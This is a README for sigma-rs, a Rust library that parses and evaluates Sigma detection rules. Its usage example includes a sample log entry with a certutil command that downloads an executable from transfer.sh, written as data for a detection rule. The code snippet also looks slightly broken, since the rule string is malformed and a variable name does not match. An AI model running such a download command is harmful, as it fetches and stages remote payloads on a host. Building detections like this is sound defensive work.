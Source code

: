 # sigma-rs
A Rust implementation and parser of [Sigma rules](https://github.com/SigmaHQ/sigma). Useful for building your own detection pipelines.

## Features
- support complex condition like ```(not test*) and ((1 of test1) or (all of test))```
- regex build cache
## Usage
```
let rule = r#"title: Suspicious File Downloaded From File-Sharing Website Via Certutil.EXE#;
let json = r#"{
    "Image": "C:\\Windows\\system32\\certutil.exe",
    "ParentImage": "C:\\WINDOWS\\system32\\cmd.exe",
    "ProcessId": "10952",
    "utc_time": "2023-03-20 17:31:23",
    "ServerScore": "0",
    "CommandLine": "certutil  -urlcache \"-split\" \"-f\" \"http://transfer.sh/artifact.exe test.exe\"",
    "ParentCommandLine": "\"C:\\WINDOWS\\system32\\cmd.exe\"",
    "OriginalFile": "CertUtil.exe.mui",
    "log_type": "ProcessCreate"
  }"#
println!("{}", evaluate_sigma(parse_sigma(rule.to_string()), &source));
```

## Reference
- [sigma-go](https://github.com/bradleyjkemp/sigma-go) 
- [chainsaw](https://github.com/WithSecureLabs/chainsaw)